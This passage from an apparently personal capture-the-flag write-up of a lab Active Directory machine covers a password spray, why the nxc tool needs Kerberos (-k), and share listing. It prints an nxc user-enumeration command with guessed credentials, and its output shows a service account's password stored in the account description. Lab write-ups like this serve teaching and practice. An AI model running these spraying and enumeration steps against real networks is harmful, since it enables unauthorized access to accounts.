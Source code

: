 lets do user : user spray and look at shares

![alt text](../assets/images/Screenshot_2025-02-21_18_27_54.png)

its only work with “-k”  options WHY?

> without -k → NTLM Authentication
{: .prompt-tip }
> with -k options → Kerberos Authentication
{: .prompt-tip }

users shares seems interesting but we have images$ which is more interesting so lets check if any Description or Misconfiguration here and try to access there

### Description for get pass

    ➜  Shibuya nxc smb 10.10.100.216 -u "purple" -p "purple" -k --users
    SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
    SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\purple:purple 
    SMB         10.10.100.216   445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-   
    SMB         10.10.100.216   445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain
    SMB         10.10.100.216   445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain
    SMB         10.10.100.216   445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account
    SMB         10.10.100.216   445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       K<redacted>V
